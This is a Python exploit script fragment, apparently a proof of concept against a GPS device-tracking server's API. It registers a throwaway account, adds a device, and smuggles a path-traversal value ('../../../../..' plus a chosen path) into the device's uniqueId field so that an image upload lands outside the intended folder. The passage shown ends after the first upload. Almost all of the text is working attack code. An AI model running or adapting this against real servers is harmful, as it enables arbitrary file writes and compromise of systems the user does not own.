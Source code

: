 ```

def upload_file(target, device_id, file_suffix, data):
    headers = {
        'Content-Type': f"image/{file_suffix}"
    }
    res = session.post(f"{target}/api/devices/{device_id}/image",headers=headers, data=data)
    return res

def change_upload_path(target, device_id, device_name, upload_path):
    headers = {
        'Content-Type': 'application/json'
    }
    data = {
        "id": device_id,
        "attributes": {
            "deviceImage": "device.png"
        },
        "groupId": 0,
        "calendarId": 0,
        "name": "test",
        "uniqueId": f"{device_name}/../../../../..{upload_path}",
        "status": "offline", "lastUpdate":None,"positionId":0,"phone":None,"model":None,"contact":None,"category":None,"disabled":False,"expirationTime":None}
    res = session.put(f"{target}/api/devices/{device_id}",headers=headers, json=data)
    return res


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} http://example.com:8082")
        sys.exit(0)
    target = sys.argv[1]
    username = generate_random_string()
    # register user
    res = register(target, username)
    if username not in res.text:
        print("Register Error!!")
        sys.exit(0)
    print(f"Register: {username}@admin.com  Password: 123456")
    # login
    res = login(target, username)
    if username not in res.text:
        print("Login Error!!")
        sys.exit(0)
    print("Login Success!!")
    device_name = generate_random_string()

    # Add Device
    res = add_device(target, device_name)
    if 'id' not in res.text:
        print("ADD Device Error!!")
        sys.exit(0)
    print(f'Add Device Success!! [{device_name}]')
    device_id = res.json()['id']

    # # Upload File
    suffix = generate_random_string()
    data = generate_random_string(20)
    res = upload_file(target, device_id, suffix, data)
    if 'device.' + suffix not in res.text:
        print("Upload Error!!")
        sys.exit(0)
    print(f"First Upload Success!!")
```